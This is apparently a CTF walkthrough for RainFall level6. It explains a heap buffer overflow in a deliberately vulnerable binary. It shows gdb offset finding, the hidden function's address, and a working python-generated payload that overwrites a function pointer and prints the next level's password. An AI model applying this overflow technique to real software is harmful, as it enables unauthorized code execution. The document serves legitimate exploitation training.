

# level6

```sh
➜  ~ ssh level6@127.0.0.1 -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_v|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level6@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
level6@RainFall:~$
```

# [Garp](https://youtu.be/vmSSfB2dcB8?si=sujn8Ga-NeHYkQq4) ---> Best character

```sh
level6@RainFall:~$ ./level6 'Joyboy... Has returned !'
Nope
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ 
```



- The `main` function declares 2 variable and allocate memory for them : `v5` `0x40u` (64 bytes) and `v6` `0x4u` (4 bytes) and `v4` call the `m` function, then the `strcpy` function is call. It copy the first argument `argv[1]` in `v5`. **`v5` has a buffer of 64 bytes**.
- `m` return the function `puts` with the string "`Nope`" only.
- The hidden and non-used function `n` return `system("/bin/cat /home/user/level7/.pass")`.

# Vulnerability : <u>Heap Buffer overflow Attack</u>

(__It's ridiculous...__)

**Objective** : Overflow the buffer (stocked in the heap) to call the hidden function `n`

## 1. Find the offset to reach the return address (for more details how to find the offset, see the [level2 walkthrough](https://github.com/Nimpoo/rainfall/tree/main/level2))

**A heap buffer overflow** is a type of buffer overflow that occurs in the heap data area. Heap overflows are exploitable in a different manner to that of stack-based overflows. Memory on the heap is dynamically allocated by the application at runtime and typically contains program data. Exploitation is performed by corrupting this data in specific ways to cause the application to overwrite internal structures such as linked list pointers. The canonical heap overflow attack involves causing the application to overwrite a function pointer or exception handler, which is then executed.

```sh
# Example of a heap buffer overflow attack
./vulnerable_program $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
```

```sh
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb)
```

### Offset = 72

## 2. Find the address of the hidden function `n`

```sh
(gdb) print n
$1 = {<text variable, no debug info>} 0x8048454 <n>
(gdb)
```

### Address of `n` = `0x8048454` (`\x54\x84\x04\x08`)

## 3. Construct the payload

```sh
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level6@RainFall:~$
```

# ??????? SO EASY ???????

Let's go to the next level I supposed...

```sh
level6@RainFall:~$ su level7
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
level7@RainFall:~$
```

# level6 complet !

